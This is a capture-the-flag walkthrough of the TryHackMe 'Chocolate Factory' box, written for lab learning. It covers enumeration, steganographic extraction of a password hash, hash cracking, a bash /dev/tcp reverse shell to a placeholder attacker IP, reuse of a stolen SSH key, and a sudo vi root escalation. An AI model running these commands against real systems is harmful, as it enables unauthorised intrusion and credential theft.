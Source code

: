 # 📝 Writeup – Chocolate Factory (TryHackMe)

---

## TL;DR
Found lots of noisy ports. Real services: FTP , HTTP, and a weird local-download binary at `/key_rev_key`. Pulled a hidden file from an image via `steghide`, cracked a SHA512crypt hash to get `charlie`'s password, used that to get a reverse shell as `www-data`, grabbed `charlie`'s SSH key, SSH'd in, and finally used `sudo vi -c ':!/bin/sh' /dev/null` to pop root. Root flag retrieved by running `root.py` locally with the found key.

---

## ENUMERATION
Start standard:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports found: `21,22,80,100-125` (lots of fake services). Do a focused scan:

```bash
nmap -p21,22,80,100-125 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshots:
![nmap](screenshots/nmap1.png)
![nmap](screenshots/nmap2.png)

Note: Port `113`'s service hinted a key at `http://localhost/key_rev_key` — if the webserver binds 0.0.0.0 you can fetch it via `http://<IP>/key_rev_key`. Keep that in mind.

---

## FTP (Port 21) — find a suspicious image

Anonymous FTP was allowed. Connect and pull `gum_room.jpg`:

```bash
ftp <IP>
# login as anonymous
get gum_room.jpg
```

Open it with `file`/`exiftool` — looks normal. But I suspected hidden data → try `steghide`:

```bash
steghide info gum_room.jpg
steghide extract -sf gum_room.jpg
# If it asks for a passphrase, try empty (some challenges do this)
```

Screenshots:
![gum\_room](screenshots/gun_room.png)
![steghide](screenshots/steghide.png)

Extraction gave `b64.txt`. Decode it:

```bash
cat b64.txt | base64 -d 
```

Decoded contents looked like a `/etc/shadow`-style hash for user `charlie` (format: `$6$salt$hash` → SHA512crypt).

---

## Crack the hash → get `charlie`'s password

Use `hashcat` with rockyou (or similar):

```bash
# example: -m 1800 is for sha512crypt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

Screenshot:
![hash.txt](screenshots/hash.png)

We cracked `charlie`'s password. Time to hit the web app.

---

## Web (Port 80) — login → command execution

Use credentials `charlie:<password>` on the site. Login success → land on `/home.php` which allows executing shell commands (or a command field that leads to a shell).

Screenshot:   
![home.php](screenshots/home.png)

Get a reverse shell listener and spawn a shell from the web app (example):

```bash
# attacker
nc -nvlp 4444

# on target (via web command)
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
```

Now we have a `www-data` shell.

---

## Check `/key_rev_key` and downloaded binary

Visiting `http://<IP>/key_rev_key` downloaded a binary. I ran `strings` to quickly see readable data:

```bash
strings key_rev_key
```

Screenshot:
![strings](screenshots/strings.png)

The binary contained some key or text that later helped (used to run root.py). Save it.

---

## Privilege escalation — www-data → charlie

Inside `www-data` shell, I found `charlie`'s SSH private key in `/home/charlie` (or similar). Save it locally and set permissions:

```bash
# copy the key onto your attacker machine (or echo it into a file)
# locally:
chmod 600 id_rsa
ssh -i id_rsa charlie@<IP>
```

Screenshot:
![rsa\_key](screenshots/rsa_key.png)

SSH in as `charlie`.

---

## charlie → root

Check sudo:

```bash
sudo -l
```

We saw `charlie` can run `/usr/bin/vi` as root without password. `vi`/`vim` is a classic GTFO/bin for root shells. Use the one-liner:

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

This spawns a root shell.

Screenshot:
![sudo](screenshots/sudo-l.png)
![root](screenshots/root.png)

---

## Root flag

To fetch the root flag, the box had `root.py`. I copied the contents and executed it locally using the key I earlier obtained from `key_rev_key`. The flag printed.

Screenshot:
![root.py](screenshots/root_flag.png)

---

## Notes, corrections & tips

* `steghide extract` can succeed with empty passphrase — try blank if you’re stuck.
* Always `chmod 600` on private keys before SSH’ing.
* `strings` is a speedrun tool — good for quick binary hints; for deeper analysis use `r2`/`ghidra`/`gdb`.
* `sudo vi -c ':!/bin/sh' /dev/null` works because `vi` runs shell commands with elevated privileges; abuse carefully.
* If the web server is bound to `127.0.0.1` only, you might need SSRF or a port-forward from the host — but in this box it was accessible via the host IP.

---

## References / further reading

* `steghide` docs / manpage
* hashcat wiki (hash modes)
* GTFOBins — `vi` tricks: [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

---

## Ethics & disclaimer

This walkthrough is for lab/learning only. Don’t run these techniques on systems you don’t own or have permission to test. Be chill and responsible.

---
